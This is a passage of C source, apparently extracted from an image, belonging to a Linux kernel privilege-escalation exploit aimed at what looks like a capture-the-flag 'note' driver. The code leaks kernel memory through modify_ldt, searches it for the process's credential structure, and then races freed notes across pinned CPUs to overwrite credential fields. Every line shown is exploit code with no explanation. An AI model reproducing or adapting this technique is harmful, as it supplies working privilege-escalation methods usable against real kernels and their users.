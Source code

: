 ```c
        //ioctl(fd,0,addr);
        ioctl(fd,KERN_EDITNOTE,addr);
        ret=fork();
        if(!ret){
            ret=syscall(SYS_modify_ldt, 0, buf,0x8000);
            unsigned long *search = (unsigned long *)buf;
            unsigned long long ans = 0;
            while ( (unsigned long)search < (unsigned long)buf+0x8000){
                search = memmem(search, (unsigned long)buf +0x8000- (unsigned long)search, "0ops0ops0ops", 12);
                if ( search == NULL )break;
                if ( (search[-2] > PAGE_OFFSET) && (search[-3] > PAGE_OFFSET )&&(int)search[-58]==pid){
                    printf("Found cred : %llx\n",search[-2]);
                    printf("Found pid: %d\n",search[-58]);
                    ans=search[-2];
                    break;
                }
                search+=12;
            }
            write(pipefd[1],&ans,8);
            exit(0);
        }
        wait(NULL);
        read(pipefd[0],&cred_addr,8);
        if(cred_addr)
        {
            break;
        }
    }
    ioctl(fd,KERN_EDITNOTE,cred_addr+4);
    ret=fork();
    if(!ret){
        ret=fork();
        if(!ret)
        {
            cpu_set_t cpu_set;
            CPU_ZERO(&cpu_set);
            CPU_SET(0,&cpu_set);
            ret=sched_setaffinity(0,sizeof(cpu_set),&cpu_set);
            sleep(1);
            for(int i=1;i<15;i++){
                ioctl(fd,KERN_ADDNOTE,i);
            }
            ioctl(fd,KERN_SELECTNOTE,11);
            for(int i=1;i<15;i++)
            {
                ioctl(fd,KERN_DELNOTE,i);
            }
            CPU_ZERO(&cpu_set);
            CPU_SET(1,&cpu_set);
            sched_setaffinity(0,sizeof(cpu_set),&cpu_set);
            while(1)
            {
                ioctl(fd,KERN_EDITNOTE,cred_addr+4);
            }
        }
        cpu_set_t cpu_set;
        CPU_ZERO(&cpu_set);
        CPU_SET(0,&cpu_set);
        ret=sched_setaffinity(0,sizeof(cpu_set),&cpu_set);
        u_desc.base_addr=0;
        u_desc.entry_number=2;
```